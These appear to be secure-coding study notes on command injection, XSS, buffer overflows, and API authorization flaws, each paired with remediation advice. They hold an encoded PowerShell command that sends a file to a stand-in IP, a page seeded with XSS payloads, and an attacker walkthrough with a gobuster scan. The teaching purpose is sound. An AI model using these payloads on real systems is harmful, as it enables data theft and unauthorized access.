- `powershell -encodedcommandAGYAaQBsAGUAIAA9ACAARwBlAHQALQBDAG8AbgB0AGUAbgB0ACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAHcAaQBuAGQAbwB3AHMALgBpAG4AaQA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA4ADAALgAyADUANgAuADAALgA4ADgAOgA0ADQANAA0ACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGYAaQBsAGUAOwA=` - where base64 encoded command is piped to the decoder. Powershell can execute a base64 encoded command when -encodedcommand key is provided.

- The encoded command is  `$file = Get-Content C:Windowswindows.ini; Invoke-WebRequest -Uri 180.256.0.88:4444 -Method POST -Body $file`;

- `&` indicates the end of this command.

#### REMEDIATION

The most effective way to prevent Command Injection vulnerabilities is to `avoid calling OS commands` from the application code (maybe the same result could be achieved by using some API or library).

If the execution of OS commands cannot be avoided, `don't use user-supplied input` to run them.

If it is not possible to avoid user-supplied input in calling out to OS commands, then `strong input validation` must be implemented. It must be based on a allowlist of allowed characters. Don't use denylists because they tend to be bypassed by a skilled attacker.

Please note that even if you allowlist only alphanumeric symbols, and the attacker fails to break the syntax of the existing command and inject his malicious command, he could still be able to add an argument to the existing command that would change the result of its execution.

A defense-in-depth approach also recommends to carefully `set permissions for the application and its components` to prevent OS commands execution.

```js
chars = @"^[a-zA-Z0-9.]+$"
if(RegexMatch(filename, chars) is true:  
    ....
```

---

### Common XSS Use Cases

The code window loads a sample webpage code that contains all the contexts where the user-supplied input can be inserted. If no protective measures are implemented, inserting user-supplied input can lead to the XSS.

The main idea of the XSS is to break out of the current context and end up inside the JavaScript context where an arbitrary JavaScript can be executed.


```html
<html lang="en">
<head>
<script>
function submitFunction(message){
 
    let additionalMessage = "[Insert into Javascript between double-quotes]";
    // let additionalMessage = "";alert('We triggered the XSS!');"";
 
 
    let thankyou = `[Insert into template literal], we will be happy to see you on our Javascript course!
    Have a nice day ${[Insert into template literal]}
    There are ${daysLeft} days left till the course start`;
    // let thankyou = `${alert('We triggered the XSS!')}, we will be happy to see you on our Javascript course!
    // Have a nice day ${alert('We triggered the XSS!')}
 
    var daysLeft = eval(getStartDate() - [Insert into eval]);
    // var daysLeft = eval(getStartDate() - alert('We triggered the XSS!'));
 
    document.getElementsById("enroll").innerText = message + "/n" + additionalMessage;
 
}
 
/* Do not forget to add authorization to the admin interface at [Insert into JS comment] */
</script>
 
<style>
.item-each .item-text{font-size:14px;font-weight:300;padding:8px; color:[Insert into CSS];}
/* .item-each .item-text{font-size:14px;font-weight:300;padding:8px; color:"blue";}</style><script>alert('We triggered the XSS!')</script><style>;} */
.item-each .item-text ul li{font-size:13px}
.item-each .item-text ul li span{font-weight:300}
.item-each .item-image{height:60px;width:60px;position:absolute;top:50%;left:0;-webkit-transform:translateY(-50%);transform:translateY(-50%)}
</style>
 
</head>
 
<body>
 
<div class=[Insert_tag_attribute_without_quotes]>
<div class=1 onmouseover=alert('We triggered the XSS!')>
    <a href="/paths/javascript?difficulty=[Insert URL query parameter]">
    <a href="/paths/javascript?difficulty=" onmouseover="alert('We triggered the XSS!')" alt="">
        <div class="item-each">
            <div class="item-image">
                </div>
                </div>
            <div class="item-text">
                Enroll to our Javascript course
                <ul>
                    <li><span>[Insert between HTML tags]</span> Courses</li>
                    <li><span><script>alert('XSS is successfully triggered!')</script></span> Courses</li>
                    
                    <li><span>21</span> Hours</li>
                </ul>
            </div>
        </div>
    </a>
</div>
 
<div id="enroll"></div>
<form action="/enroll" class="form" onsubmit="submitFunction([Insert into javascript without quotes])">
<form action="/enroll" class="form" onsubmit="submitFunction(0123);alert('XSS is successfully triggered!')">

    First name: <input type="text" name="fname" value="[Insert into double-quoted attribute]"><br>
    First name: <input type="text" name="fname" value="onmouseover=alert('XSS is successfully triggered!') alt="1"><br>    

    Last name: <input type="text" name="lname"><br>
  <input type="submit" value="Submit">
</form>
 
 
<noscript>
    Please turn on Javascript! [Insert into noscript tag] element cannot be displayed without Javascript!
    Please turn on Javascript! </noscript><script>alert('XSS is successfully triggered!')</script> element cannot be displayed without Javascript!

</noscript>
 
<iframe src="[Insert iframe src attribute]" height="0" width="0" style="display:none;visibility:hidden"></iframe>
```

In order to trigger an XSS, an attacker needs to break out of the quotes (or double-quotes).

Thus, to prevent XSS, quotes (double-quotes) should be HTML encoded:

- `" --> &quot;`
- `' --> &#x27;`

Note that in this case, HTML encoding is more preferable than escaping quotes (double-quotes).

- Escaping quotes means explicitly adding a backslash `(\)` symbol before every quote. The backslash can be escaped with another backslash, thus leaving the quotes (double-quotes) unescaped.

- Escaping with the backslash uses a denaylist approach and denaylist tend to be bypassed.

There are two options for an attacker to trigger the XSS when template literals are used:

1. If the user-controlled data is inserted between the backticks "(`)" and not inside "${}", 
   1. an attacker should either `break out of the backticks and insert a malicious script` into the JavaScript context 
   2. or insert a `malicious script enclosed in curly brackets and prepended with a dollar sign (${malicious script})` between the backticks. 
   3. In both cases, the malicious script is going to be executed.

2. If the user-controlled data is inserted right into `${}`, an attacker can insert the JavaScript code right away. 


#### To prevent XSS

> avoid insertion of the data between the backticks or inside `${}` without enclosing the data in quotes or double quotes.

If you insert the data dynamically on the backend, there are two preferable ways of doing it:

1. Insert sanitized data into a variable between the quotes or double quotes and then insert the variable into the template literal.

```java
var variable = "[Insert here]"; literal = `The number is ${variable}`
```

2. Insert sanitized data into the quotes or double quotes inside the template literal.

```java
literal = `Some text "[Insert here]" ${<"[or insert here]">}`
```

If the data is inserted from a JSON on the frontend, then according to the JSON syntax any string is enclosed into double quotes. If JSON is parsed securely, e.g. using `JSON.parse()`, then you can insert values from the JSON to the template literal without additional security controls.

In the following example:

```java
inputjson = JSON.parse(
    "{
        \"key1\":\"value1\",
        \"key2\":2,
        \"key3\":true
    }"
);
console.log(`Key1 = ${inputjson.key1}, Key2 = ${inputjson.key2}, Key3 = ${inputjson.key3}`)
```

- 由于 `JSON.parse` 会对数据类型严格检查，如果格式不符合 JSON 规范（例如一个字符串没有加双引号），它会直接抛异常，而 不会解析出可执行脚本。


- `key1` 一定是字符串，不会变成 JavaScript 代码。
  - 字符串 → 必须用双引号包裹
  - 无论其中包含 `<script>、${}、反引号`等，都只是字符串，不会变成可执行代码。

- `key2` 是数字，`key3` 是布尔值，这些类型不会包含脚本内容。
  - 如果攻击者试图这样注入： `{ "key2": 1; alert(1) }`
  - 这不是合法 JSON！
  - `JSON.parse()` 会直接抛错，不会运行任何东西，从而避免 XSS。

当你使用安全方法（如 JSON.parse()）解析:

| JSON 类型    | 必须格式        | 是否可能含可执行代码？ |
|--------------|-----------------|------------------------|
| 字符串       | 必须 `"..."`    | ❌ 不会执行，只是字符串 |
| 数字         | 不加引号        | ❌ 纯数字，不含脚本     |
| 布尔         | true / false    | ❌ 不能包含脚本         |
| 对象 / 数组  | 用 `{}` 或 `[]` | ❌ 结构必须合法         |
| 其他非法内容 | 不符合格式      | ❌ 直接抛异常，不会执行 |


Do not insert the untrusted data with functions that evaluate JavaScript like `eval(), setTimeout(), setInterval() or Function()` constructor. Any data inserted into these functions will be evaluated as JavaScript.

In older browsers, it was possible to trigger the XSS by inserting JavaScript into properties containing URLs:

`<style>.xss{background-image:url("javascript:alert('XSS')");}</style>`

Or into CSS expressions:

``

Currently, URLs in CSS properties are sanitized by browsers, and CSS expressions are deprecated.

---

### Broken Object Property Level Authorization - Excessive Data Exposure

Developers should avoid disclosing sensitive data to clients in API responses, as this can expose the system to attack.

The consequences of excessive data exposure vulnerability vary depending on the type of sensitive data disclosed. 

The remediation strategies for excessive data exposure attacks are:  

- Avoiding client-side filtering  
- Defining sensitive data  
- Examining API responses  
- Utilizing the Data Transfer Object design 
- Creating tests to check provided data

---

### Buffer Overflows



```java
void test(void) {
  char small[12];
  //fgets(small, 12, stdin);
  gets (small);
  printf("%s\n", small);
}
​
main() {
  test();
  printf("Good Bye")
}
```

- `gets()` didn't perform any bounds checking on the user input, we overflowed the `small[]` array past its allocated size, corrupting the stack.

- Now when the `test()` function returns, the value in our stack frame at `EIP` (which we overwrote) will be popped into the `%EIP` register. When the next instruction is fetched for execution (from `%EIP`), the program crashes because the address is invalid!

Buffer Overflows vulnerabilities can seriously impact the security of your application.

Whilst each vulnerability is different, they can result in some of the following scenarios:

- Functional problems related to unexpected behavior or a program crash;
Corruption of sensitive or secret data on the stack;
- The ability to alter intended business logic;
- Unauthorized access to sensitive or secret data on the stack;
- Arbitrary attacker controlled code execution;
- All of the above could be attacker exploitable scenarios under the right conditions.

Be especially careful when handling strings. Because many string-handling functions have no built-in checks for string length in C/C++, strings handling logic is frequently the underlying culprit of exploitable buffer overflows.

---

### Privileged Interface Exposure

The vulnerable application pane loads the TradeMASTER application, an online trading platform. Registered users of the system can login to buy and sell stocks, bonds and currencies. Alice is a trader and registered (legitimate) user of the application.

- `https://trademaster.codebashing.com/trade_station?type=user`

- the URL ends with the following query string: `trade_station?type=user`

- `trade_station?type=admin`

By simply changing the type parameter value to admin, Alice was able to access a legacy administrative console on TradeMASTER.

Although Alice does not have access to TradeMASTER's administrative credentials, the exposure of a sensitive system component can provide an additional attack surface for a malicious user to exploit.

- For example, Alice could mount a password brute force attack against the legacy admin web console or attempt discovering SQL injection / Cross Site Scripting vulnerabilities.

---

### Leftover Debug Code

Bob is an attacker and has access to the TradeTECH website. However, he does not have valid access credentials to log in as an authorized user. Bob decides to search for weaknesses that will allow him to get unauthorized access.

Bob starts by inspecting the HTML source for TradeTECH's login page to look for any clues that might help him.

```html
<div class="loginInput">
<input type="text" class="variable" name="email" id="variable1"/>
</div>
​
<div class="loginInput">
<input type="password" class="variable" name="password"  id="variable2"/>
</div>
<!-- FIXME - For QA/Testing environment,append ?debug=1 flag within the URL to access the application without authentication. -->
<div class="loginControl">
<input type="submit" value="Log Me In" class="dredB logMeIn" id="btnStatus"/>
</div>
```

`https://tradetech.codebashing.com?debug=1`

---

### Broken Object Property Level Authorization - Mass Assignment

- The mass assignment vulnerability can occur in web applications that use modern frameworks, allowing attackers to add additional HTTP request parameters and transform them into an object's property.

- The impact of mass assignment vulnerabilities depends on the business logic and can result in bypassing the logic and some form of security mechanism.

- Avoid mass assignment vulnerabilities by using the Data Transfer Object (DTO) pattern, which can restrict the fields set in an object and allow and disallow the exposure of properties.

---

### Broken Function-Level Authorization

Every API endpoint (methods of every controller) that is accessible to users is technically a function, including ones that access objects.

When an application fails to make sure an authenticated user has permissions to access a function, it's vulnerable to Broken Function-Level Access (BFLA).

Bob authenticates with the app and saves the authentication cookie. Then he starts a console tool that is used to brute-force URLs. With this tool, Bob plans to scan all the API endpoints of the online banking app and check which of them can be accessed by regular users.

He starts with the URLs that he had spotted while he was browsing the app and analyzing requests that the frontend exchanges with the backend.

Bob was reviewing the scan results when he noticed that the following API endpoints returned a “405 Method not allowed” response to the request of the scanning tool:

- `https://online.globalbank.me/api/loan/request`

- `https://online.globalbank.me/api/loan/approve`

- `https://online.globalbank.me/api/loan/decline`

- `https://online.globalbank.me/api/loan/update`

A "405 Method Not Allowed" response notifies the user that a certain endpoint accepts external requests but does not allow those using the GET method. Therefore, attempting a POST request (or using other HTTP verbs) might be more successful.

An idea immediately came to his criminal mind: If he requests the loan using the first endpoint, could he approve or decline it with his current user privileges using the other two endpoints? Let’s find out!

```bash
bobhackeye@kali: ~# gobuster dir -u https://online.globalbank.me/api/loan -w
/home/bobhackeye/hacking/commonapiendpoints.txt -t 50 -c
“sessionId=TPXKt0sRgloik6Mc6t8lQrgMrqcgxgIx1oMlotmXmHo“ -s
200,204,301,302,307,400,401,403,405

==================================

Gobuster v3.0.1

==================================

[+] Url: https://online.globalbank.me/api/loan/

[+] Threads: 50

[+] Wordlist: /usr/share/wordlists/dirbuster/commonapiendpoints.txt

[+] Status Codes: 200, 204, 301, 302, 307, 400, 401, 403, 405

[+] Cookies: sessionId=TPXKt0sRgloik6Mc6t8lQrgMrqcgxgIx1oMlotmXmHo

[+] Timeout: 10s

==================================

2020/12/25 13:55:06 Starting gobuster

==================================

https://online.globalbank.me/api/loan/request (Status: 405)

https://online.globalbank.me/api/loan/approve (Status: 405)

https://online.globalbank.me/api/loan/decline (Status: 405)

https://online.globalbank.me/api/loan/update (Status: 405)

===================================

2020/12/25 13:55:07 Finished

===================================

bobhackeye@kali: ~#
```

1. Bob needs to request a loan. He composes a POST request with the necessary loan details and his session ID and sends it to the /api/loan/request endpoint using a proxy tool.

2. In response, he receives an ID of his loan request and its current status.

3. Now Bob can use the loan ID to approve (or decline) it. He decides to decline the request to avoid attracting unwanted attention to his actions from bank officials. So, he composes a `POST` request to the `/api/loan/decline` endpoint using the same session ID and a loan ID.

4. As a result, Bob’s loan request was declined. This indicates that the functionality, which should be restricted to “administrators” of the loan service, is not properly protected from access by regular users.

5. Now Bob can sell information about this vulnerability to criminals on the Dark Web.

```java
@RestController
@RequestMapping("/loan")
public class LoansController {
  ...
    @PostMapping("/approve")  
    public ResponseEntity<LoanStatus> approve(@RequestBody UUID loanId) {
        return ResponseEntity.ok(loanService.approve(loanId));
  }
  ...
  }
```

JAVA Spring Security authorization mechanism is well suited for function-level checks that effectively prevent BFLA. It has multiple ways of configuring function-level access control: from the high-level configuration down to the granular check on the function level.

A detailed overview of all the authorization mechanisms available in JAVA Spring Security is presented here: `https://docs.spring.io/spring-security/site/docs/current/reference/html5/#servlet-authorization`

There are three high-level ways of configuring authentication and authorization:

- the centralized XML-based configuration
- the code-based configuration
- the method-level configuration based on annotations (Method Security in Spring terms).

The centralized configuration can be mixed with the method-level configuration. It also allows setting up authentication and authorization based on URL patterns. (Authorization is limited to the check of the current user role or authority.)

```java
@PreAuthorize("hasRole('LoanManager')") 
```

---

### Broken Object-Level Authorization

The root cause of Broken Object Level Authorization weakness is usually a lacking or misconfigured authorization.

Generally, APIs receive an identifier of an object that the application user intends to retrieve, modify, or delete. When the application fails to ensure that the authenticated user has sufficient permissions to access the object with the specified ID, it's vulnerable to BOLA.

Additionally, BOLA is present when an API endpoint returns a list of objects to a user, but the user is authorized to access only a part of this list. This means that an authorization check is required not only for operations over objects with a user-defined ID but also for lists of objects exposed by endpoints.

Bizent company has developed a platform to host online shopping applications for small and medium businesses. Each shopping app has its own admin and a user base. API methods that are available to the admin cannot be accessed by the users.

The admin interface of those shopping apps is implemented in such a way that every request to it needs to contain a UUID of the certain shopping app.

An example of such a request is displayed on the right, and the UUID is highlighted.

```html
GET /api/admin/shops/914d854f-77a1-4339-a9b1-56c9386da9e1/ HTTP/1.1
Host: bizent.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

Bob is a hacker. He registered an account on the Bizent platform, set up the sample shopping app, and loaded test data on users and goods.or his own gain.

- Bob opens his intercepting proxy tool and begins analyzing requests and responses that the app exchanges with the API endpoints of the platform.

- In a request that was sent to the user management endpoint `/api/admin/shops/` to retrieve the list of users with their details. UUID of his shopping app: `cd94a00a-dcc3-4683-8279-efb3f61fbf6d`

- what would happen if he changes this UUID to the UUID of another shopping app?
- Bob registers another account with the Bizent platform and sets up another shopping app. The UUID of this new shop is the following: `9dacc415-810b-4487-b185-94ced88d60fa`

In a response, Bob receives a JSON containing the details of all the fake users from his second shopping app.

This means that the `/api/admin/shops/` API endpoint is vulnerable to BOLA attacks. 

```java
@PreAuthorize("hasRole('ADMIN')")
@GetMapping("/{id}") 
public List<User> retrieveAllUsers(@PathVariable(value = "id") UUID id){ 
  List<User> allUsers = new ArrayList<>();
  shopUsersRepository.findByShopId(id.toString()).forEach(allUsers::add); 
  return allUsers;
}
```

JAVA Spring Security authorization mechanism doesn’t offer any specific controls against BOLA.

- In some cases, an expression-based check can be used for authorization, e.g., a `@PreAuthorize annotation containing a comparison of the currently authenticated user name with a user name parameter supplied in the incoming object`, or a `@PostFilter annotation that narrows a collection of objects down to the ones the current user has access to`. 
- But it’s not a solid approach because it doesn’t cover all the cases.

BOLA protection should reside on the repository or DB level, which are not a part of Spring Security.

The statements that retrieve data from the database should be designed with the authorization in mind (regardless of whether it's an additional custom method of a repository class or a stored procedure in the DB, or a separate DB schema for every organization, or pretty much any other way of limiting the data to be extracted from the DB). In other words, instead of loading all the objects, only the objects accessible to the current user should be retrieved. The exact implementation of the authorization logic completely depends on the application's business logic and should be applied in the most efficient way.

GENERAL MITIGATION STRATEGIES

The following strategies can be applied to mitigate the Broken Object Level Authorization vulnerability:

1. The API must explicitly check that the current user is authorized to access the desired object (the exact check depends on the context). Generally, objects should have a user attribute that defines who is authorized to access them, or the user should have the necessary roles/permissions/groups.

2. BOLA can be mitigated on the function level by checking that the current user has a necessary role to operate on the desired object. Depending on the context, it can be granular: for example, a user has access to the "read" function, an editor has access to "read" and "update” functions, and an administrator has access to all the functions.

3. The application must use random strings as object identifiers (e.g., UUID). Random IDs make a guess-based and brute-force-based object ID enumeration a nearly impossible task. At the same time, they shouldn't be used as a standalone security control because they do not mitigate the vulnerability - they just raise the attack complexity. Using random IDs without proper authorization is a "security through obscurity" approach that is flawed by design. It can be trivially bypassed if another endpoint exposes the IDs (either intentionally or unintentionally).

4. A separate DB schema for every organization (or a separate DB on a separate tenant) could also prevent unauthorized users from accessing data that belongs to another company.

```java
long loggedUserId = usersRepository.findByUsername(currentPrincipalName).getId(); 
Note requestedNote = notesRepository.findById(id).get();
```

